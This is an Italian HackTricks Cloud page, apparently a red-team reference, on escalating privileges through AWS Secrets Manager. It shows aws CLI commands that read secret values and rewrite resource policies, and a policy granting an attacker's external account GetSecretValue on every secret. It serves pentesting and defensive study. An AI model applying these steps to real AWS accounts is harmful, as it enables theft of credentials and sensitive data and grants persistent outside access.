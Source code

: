 # AWS - Privilegi di Escalation di Secrets Manager

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Secrets Manager

Per ulteriori informazioni su Secrets Manager, controlla:

{% content-ref url="../aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### `secretsmanager:GetSecretValue`

Un attaccante con questa autorizzazione può ottenere il **valore salvato all'interno di un segreto** in AWS **Secretsmanager**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Potenziale Impatto:** Accesso a dati altamente sensibili all'interno del servizio AWS Secrets Manager.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Con le autorizzazioni precedenti è possibile **concedere l'accesso ad altri principali/account (anche esterni)** per accedere al **segreto**. Si noti che, per **leggere i segreti criptati** con una chiave KMS, l'utente deve anche avere **accesso alla chiave KMS** (ulteriori informazioni nella [pagina di Enumerazione KMS](../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowListSecrets",
            "Effect": "Allow",
            "Action": [
                "secretsmanager:ListSecrets"
            ],
            "Resource": "*"
        },
        {
            "Sid": "AllowGetSecretValue",
            "Effect": "Allow",
            "Action": [
                "secretsmanager:GetSecretValue"
            ],
            "Resource": "arn:aws:secretsmanager:us-east-1:123456789012:secret:MySecret"
        }
    ]
}
```

This `policy.json` file contains an AWS IAM policy that grants two permissions related to AWS Secrets Manager. The first permission allows the user to list all secrets in the account by using the `secretsmanager:ListSecrets` action. The second permission allows the user to retrieve the value of a specific secret named "MySecret" by using the `secretsmanager:GetSecretValue` action. The `Resource` field specifies the ARN (Amazon Resource Name) of the secret, which is in the format `arn:aws:secretsmanager:<region>:<account-id>:secret:<secret-name>`. In this example, the secret is located in the `us-east-1` region and belongs to the AWS account with the ID `123456789012`.
```json
{
"Version" : "2012-10-17",
"Statement" : [ {
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : "secretsmanager:GetSecretValue",
"Resource" : "*"
} ]
}
```
<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) su GitHub.

</details>
